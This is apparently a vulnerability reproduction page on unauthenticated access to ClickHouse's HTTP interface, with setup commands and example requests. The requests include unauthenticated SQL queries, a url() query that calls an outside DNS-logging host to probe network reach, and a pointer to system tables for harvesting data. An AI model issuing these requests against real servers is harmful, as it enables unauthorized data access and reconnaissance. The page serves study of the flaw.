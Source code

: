 # Unauthorized Access Vulnerability in Clickhouse

## Vulnerability Description

A malicious attacker can access the ClickHouse server without providing valid credentials. This may result in unauthorized access to sensitive data or allow the attacker to modify or delete data. **By default, the clickhouse-server will monitor HTTP requests on port 8123 (this can be modified in the configuration).**

## Environment Setup

```
sudo apt-get install -y apt-transport-https ca-certificates dirmngr
sudo apt-key adv --keyserver hkp://keyserver.ubuntu.com:80 --recv 8919F6BD2B48D754

echo "deb https://packages.clickhouse.com/deb stable main" | sudo tee \
    /etc/apt/sources.list.d/clickhouse.list
sudo apt-get update

sudo apt-get install -y clickhouse-server clickhouse-client

sudo service clickhouse-server start
clickhouse-client
```

## Vulnerability Reproduction

First, determine if the interface of the ClickHouse database is being used.

```
curl http://192.168.0.5:8123
```

According to the documentation, a normal response is Ok. , and there is an `X-ClickHouse-Summary` as a header in the response package.

![image-20220519222815299](../../.gitbook/assets/image-20220519222815299.png)

Test if you can execute a SQL command, some will fail due to failed unauthenticated execution caused by identity verification.

```
/?query=SHOW%20DATABASES
```

![image-20220519222912183](../../.gitbook/assets/image-20220519222912183.png)

Successfully execute the statement to obtain data, and execute other commands to detect the network.

```
http://192.168.0.5:8123/?query=SELECT%20*%20FROM%20url(%27http://cf1cfb13.dns.1433.eu.org/%27,%20CSV,%20%27column1%20String,%20column2%20UInt32%27)%20LIMIT%203;
```

![image-20220519223412215](../../.gitbook/assets/image-20220519223412215.png)



You can view the execution record table in the system library to quickly locate the information that can be used (obtain sensitive user information, database names, and table names).